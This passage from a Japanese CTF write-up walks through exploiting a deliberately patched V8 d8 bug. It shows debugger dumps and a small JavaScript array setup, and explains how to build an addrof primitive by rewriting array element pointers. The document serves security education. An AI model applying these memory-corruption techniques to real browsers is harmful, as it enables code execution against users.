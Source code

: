 ```txt
 - length: 4
 - properties: 0x3af7080426dd <FixedArray[0]> {
    0x3af708044649: [String] in ReadOnlySpace: #length: 0x3af708182159 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x3af708086339 <FixedDoubleArray[2]> {
           0: 1.1
           1: 2.2
 }
0x3af7082438fd: [Map]
... (略)

d8> 
```

`l_map`は上位32bitにpropertiesが、下位32bitにmapのポインタが入っており。`l_elm`は上位32bitにlengthの2倍の値が、下位32bitにelementsのポインタが入っていることがわかる。gdbでも確認すると次のように(0-indexedで)2番目と3番目の要素が取得出来たことがわかる。

```txt
pwndbg> x/8gx 0x3af708086339-1
0x3af708086338: 0x0000000408042a31      0x3ff199999999999a
0x3af708086348: 0x400199999999999a      0x080426dd082438fd
0x3af708086358: 0x0000000808086339      0x0eeab75608042545
0x3af708086368: 0x2074656c00000011      0x203d2070616d5f6c
pwndbg> 
```

### addrof

スライスの生成によってmapとelementsのポインタの取得と書き換えが出来るようになったことから、これを利用してaddrofプリミティブを実現する。色々方法は考えられるが、今回はfloat64の配列のelementsをオブジェクトの配列のものに書き換えてfloat64配列の参照時にこれらのポインタを浮動小数点として取得する方針を用いる。

このために、オブジェクトの配列のelementsへのポインタをリークさせる必要があるが、float64の配列であれば、length+1に相当する部分の値を浮動小数点数の形で参照出来るのに対して、オブジェクトの配列の場合はオブジェクトとして参照するためこの方法でアドレスをリークさせることは出来ない。そこで、配列を生成した際のメモリ確保アルゴリズムがおそらく決定的であることを利用して、float64に関連するアドレスから固定のオフセットを足してリークする。

`DebugPrint`を利用してfloat64の配列とオブジェクトの配列のアドレスを見てみる。使用した配列は次のように定義している。

```javascript
let float_arr = [1.1];
let obj_arr = [{A:1}];

float_arr = float_arr.slice(0);
obj_arr = obj_arr.slice(0);
```

ここで、このコードを通常シェルで実行する場合と、スクリプトによる実行でメモリの様子が異なったので、エクスプロイトコードを書くことを想定して後者の場合の例を載せる。

```txt
d8> %DebugPrint(obj_arr)
DebugPrint: 0x32e808084d2d: [JSArray]
 - map: 0x32e80824394d <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x32e80820a555 <JSArray[0]>
 - elements: 0x32e808084d21 <FixedArray[1]> [PACKED_ELEMENTS]
 ...
d8> %DebugPrint(float_arr)
DebugPrint: 0x32e808084d11: [JSArray]
 - map: 0x32e8082438fd <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x32e80820a555 <JSArray[0]>
 - elements: 0x32e808084d01 <FixedDoubleArray[1]> [PACKED_DOUBLE_ELEMENTS]
 ...
```


[^1]: Heap Exploitの簡単な問題を解いたことがある(私自身がこれ)ぐらいを想定しているが、AARとAAWが出来ると何が嬉しいかなんとなくわかっていれば問題ないと思う
[^2]: 手元でビルドするメリットも存在し、[katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=28)によれば、printfやインラインアセンブリ(`int3`)によるデバッグの効率化等があるらしい
[^3]: 脆弱性を埋め込むパッチを埋め込んでいない場合は、配列の外側を参照することになるためundefinedになる